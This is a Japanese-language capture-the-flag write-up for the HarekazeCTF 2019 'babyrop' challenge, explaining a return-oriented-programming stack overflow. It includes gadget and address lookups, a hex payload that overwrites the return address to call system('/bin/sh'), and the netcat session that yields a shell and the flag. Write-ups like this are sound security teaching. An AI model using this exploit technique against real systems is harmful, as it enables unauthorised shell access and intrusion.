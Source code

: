 ## babyrop

スタックは次のようになっている。

```txt
input[16]
---------
rbp
---------
ret addr
```

このreturnアドレスの部分にROPガジェット`pop rdi; ret`を指すアドレスを書き込み、その下に`/bin/sh`という文字列のアドレス、その下に命令`call sym.imp.system`を指すアドレスを書き込む。すると次のようになる。

```txt
input[16]-> 適当な文字列（16バイト）
---------
rbp      -> 適当な文字列（8バイト）
---------
ret addr -> pop rdi; ret
---------
         -> "/bin/sh"
---------
         -> system()
```

スタックがこの状態だと、次のように処理が行われる。

1. `main()`関数が`ret`に到達する
2. returnアドレスが指す先に戻る。ここではアドレスが書き換えられているため`pop rdi; ret`という処理に移る
3. `pop rdi`が実行され、"/bin/sh"という文字列がレジスタ`rdi`に入る
4. `ret`が実行され、returnアドレスが指す先、つまり`system()`関数に飛ぶ
    - rdiに"/bin/sh"が入っているので、`system("/bin/sh")`が実行される 
5. シェル奪取に成功！

さて、スタックを上の状態にするには以下の情報が必要である。

1. `pop rdi; ret`のアドレス
    - `ROPgadget`を使うと調べられる。`0x400683`
```terminal
%  ROPgadget --binary babyrop | grep "pop rdi"
0x0000000000400683 : pop rdi ; ret
```
2. 文字列"/bin/sh"のアドレス
    - `gef`の機能で調べられる。`0x601048`
```txt
gef➤  search-p /bin/sh
[+] Searching '/bin/sh' in memory
[+] In '/home/ytaka/CTF/rop/babyrop'(0x601000-0x602000), permission=rw-
  0x601048 - 0x60104f  →   "/bin/sh"  <= 今回はこちらを使う
[+] In '/usr/lib/x86_64-linux-gnu/libc.so.6'(0x7ffff7f47000-0x7ffff7f9f000), permission=r--
  0x7ffff7f62678 - 0x7ffff7f6267f  →   "/bin/sh"
```
3. `system()`のアドレス
    - `main()`関数で使用しているのですぐわかる。`0x4005e3`
```txt
%  objdump -d babyrop | grep "system@plt"
0000000000400490 <system@plt>:
  4005e3:       e8 a8 fe ff ff          call   400490 <system@plt> <= これ
```

必要な情報が揃ったので、ペイロードを書いて送る。  
なぜか`echo XX | ./babyrop`のようにパイプで繋いでもうまくいかなかったので、`echo XX > attack.bin`のように一旦別ファイルに保存してから、`cat attack.bin - | ./babyrop`を実行した。  
また、これまたなぜかローカルに落とした`./babyrop`を使ってもSegmentation faultが出てしまうので、GitHubにあったDocker環境を使って実行してみた。 -> <https://github.com/TeamHarekaze/HarekazeCTF2019-challenges/blob/master/baby_rop/server/Dockerfile>

※補足：`cat`において`-`は標準入力を意味する。ふつう`cat hoge.txt`を実行するとhoge.txtが表示されて終わりだが、`cat hoge.txt -`とすれば、hoge.txtが出力された後にも標準入力からの入力を受け付ける。これを利用し、`cat hoge.txt - | ./XXX`とすれば、`./XXX`にhoge.txtの内容を送って終わりではなく、入力を受け付けるようになる。

※追記：`echo`でプログラムに入力を渡した後でも、標準入力を渡すようにしたいとき、次のようにすればよい。
`(echo -e '\xef\xbe\xad\xde'; cat) | ./program` (<https://mymanfile.com/?p=4564>)

```terminal
$ echo -e "AAAAAAAAAAAAAAAABBBBBBBB\x83\x06\x40\x00\x00\x00\x00\x00\x48\x10\x60\x00\x00\x00\x00\x00\xe3\x05\x40\x00\x00\x00\x00\x00" > attack.bin
$ cat attack.bin - | nc localhost 60680
What's your name? ls
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
cd /home
ls
babyrop
cd babyrop
ls
babyrop
flag
cat flag
HarekazeCTF{r3turn_0r13nt3d_pr0gr4mm1ng_i5_3ss3nt141_70_pwn}
```

